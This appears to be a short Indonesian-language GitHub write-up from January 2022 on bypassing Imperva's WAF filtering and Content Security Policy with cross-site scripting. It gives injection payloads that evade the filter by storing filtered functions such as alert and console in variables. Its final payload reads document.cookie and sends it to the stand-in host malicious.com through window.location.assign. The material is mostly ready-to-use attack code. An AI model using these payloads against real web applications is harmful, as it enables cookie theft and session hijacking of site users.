 # XSS BYPASS IMPERVA dan CSP(Content Security Policy)  - 25 Januari 2022
# Imperva memfilter beberapa hal
## 1. Tag HTML yang malicious 
    * <script>
    * <img src>
    * javascript::
## 2. Built in function dari javascript
```javascript
console.log("test")
alert("test")
prompt()
window.open("http://malicious.com")
```


## Bypass ini bisa dilakukan jika kita sudah bisa mengontrol variabel pada javascript
Example Vulnerable Code: 
![Alt text](./1.png "Vulnerable Code")

### Disini kita bisa memanggil function yang difilter dengan cara menyimpan objek dari function ke variable dahulu
Example Payload :
```javascript
');let f=123;f=2;f=console;f.log("XSS CONSOLE HERE");//
```

```javascript
');let f=123;f=2;f=alert;f("XSS ALERT HERE");//
```


### maka payload yang diterima server menjadi :
![Alt text](./2.png "Final Payload")

# Bypass CSP (Content Security Policy)
### kita bisa memanfaatkan function javascript :
```javascript
window.open("http://malicious.com")
window.location.assign("http://malicious.com")
window.location.replace("http://malicious.com")
```

### Apabila digabungkan dengan bypass xss sebelumnya maka final payload menjadi :
```javascript
')let x=22;x=document;x=x.cookie;let f=123;f=2;f=window;f=f.location;f.assign("http://malicious.com/"+x);//
```

